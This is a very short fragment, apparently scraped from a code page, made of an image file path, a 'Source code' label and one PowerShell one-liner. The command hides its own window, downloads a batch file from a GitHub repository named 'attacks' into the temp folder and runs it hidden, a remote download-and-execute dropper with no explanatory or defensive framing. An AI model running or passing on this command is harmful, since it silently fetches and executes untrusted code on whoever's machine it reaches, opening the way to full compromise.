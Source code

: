 powershell -w h -c "iwr https://raw.githubusercontent.com/petrohemia/attacks/refs/heads/main/installManager.bat -o $env:tmp\im.bat;Start-Process -WindowStyle Hidden $env:tmp\im.bat -ArgumentList 'print.py'";
